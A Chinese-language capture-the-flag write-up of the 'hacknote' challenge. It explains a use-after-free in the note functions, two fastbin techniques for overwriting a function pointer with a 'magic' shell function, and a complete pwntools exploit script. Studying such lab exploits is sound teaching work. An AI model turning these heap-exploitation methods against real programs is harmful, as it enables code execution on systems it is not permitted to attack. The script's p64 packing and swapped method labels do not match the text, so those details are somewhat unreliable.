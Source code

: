 ## 0x001 程序分析

通过checksec查看程序开启的保护，可见只开启了NX保护。

![](1.png)

程序中主要的功能函数

**add_note函数**

![](3.png)

先看下add_note函数，函数中首先有个堆块的计数器 **count**，只允许创建5个堆块。

接下来有个堆管理表 **notelist**，判断其中是否有值，如果没有，就先创建一个8字节的堆块，暂且称该堆块为管理块，该管理块的前四个字节存放 **print_note_content** 函数的指针，然后输入使用堆块长度，创建相应大小的堆区，并将该堆区地址存入管理块的后四个字节，最后使用read函数接收输入，写入使用堆区。

![](6.png)

**del_note函数**

![](4.png)

判断堆管理表 **notelist** 中相应的索引是否有值，如果有，就将对应的两个堆区释放。

**print_note函数**

![](5.png)

判断堆管理表 **notelist** 中相应的索引是否有值，如果有，就将管理块的地址取出，调用管理块的前四个字节的 **print_note_content** 函数，参数为后四个字节的使用块地址。**print_note_content** 函数中调用puts函数打印。

## 0x002 漏洞分析

该程序的漏洞为Use After Free（UAF），也就是释放后重用漏洞。

因为在 **del_note** 函数中删除时，只使用了free释放堆空间，并没有将相关的地址设置为0，所以就算释放后，也可以再次访问到堆空间，就造成了释放后重用漏洞。

## 0x003 漏洞利用

根据上述的分析，每调用一次 **add_note** 函数新建note时，会申请两个堆区，一个是固定8字节，一个根据输入的大小确定。

### 第一个利用方式

第一个利用方式为fastbins double free。首先创建一个8字节的堆区，然后释放两次。
```
add_note(8, b"aaa")
del_note(0)
del_note(0)
```

此时堆区内容如下：

![](7.png)

在释放两次后，可以看到在 **fastbins** 中形成了闭环 **chunk0->chunk1->chunk0**，如果现在新建一个大于8字节的堆区时，8字节的管理区会先从 **fastbins** 中拿走 **chunk0** 当作管理区，此时 **fastbins** 中的内容会变成 **chunk1->chunk0**，那么这时在新建一个等于8字节的堆区时，就会将 **chunk1** 分为管理区，**chunk0** 分作使用区，此时向使用区中写入数据的话，也就是向 **chunk0** 的管理区写数据，就可以修改 **print_note_content** 函数指针为 **magic** 函数指针，那么在调用 **print_note** 输出 **chunk0** 的内容时，就会调用到 **magic** 函数，获取系统权限。

### 第二个利用方式

首先可以申请两个大于8字节的堆区，然后释放它们。
```
add_note(16, b"aaa")
add_note(16, b"aaa")
del_note(0)
del_note(1)
```

现在的堆区情况如下：

![](8.png)

可以看到，在两次释放之后四个堆块分到了 **fastbins** 的不同区中（这也是为什么要新建两个大于8字节的堆区）。在 **fastbins** 0x10分段中的两个地址为 **chunk0** 和 **chunk1** 的管理区，那么此时在申请一个等于8字节的 **chunk3** 时，就会将 **chunk1** 的管理区当作 **chunk3** 的管理区， **chunk0** 的管理区当作 **chunk3** 的使用区，那么现在对 **chunk3** 使用区
的操作就可以修改 **chunk0** 的管理区，将其中的 **print_note_content** 函数指针为 **magic** 函数指针，那么在调用 **print_note** 输出 **chunk0** 的内容时，就会调用到 **magic** 函数，获取系统权限。

最终两个利用方式的EXP如下：
```
from pwn import *

p = process("./hacknote")
elf = ELF("hacknote")

def add_note(size, payload):
    p.sendlineafter(b"Your choice :", str(1))
    p.sendlineafter(b"Note size :", str(size))
    p.sendlineafter(b"Content :", payload)

def del_note(idx):
    p.sendlineafter(b"Your choice :", str(2))
    p.sendlineafter(b"Index :", str(idx))

def print_note(idx):
    p.sendlineafter(b"Your choice :", str(3))
    p.sendlineafter(b"Index :", str(idx))

def getshell_1():
    add_note(16, b"aaa")
    add_note(16, b"aaa")
    del_note(0)
    del_note(1)

    add_note(8, p64(elf.symbols["magic"]))
    print_note(0)
    
def getshell_2():
    add_note(8, b"aaa")
    del_note(0)
    del_note(0)
    
    add_note(16, b"aaa")
    add_note(8, p64(elf.symbols["magic"]))
    print_note(0)

getshell_1()
p.interactive()
```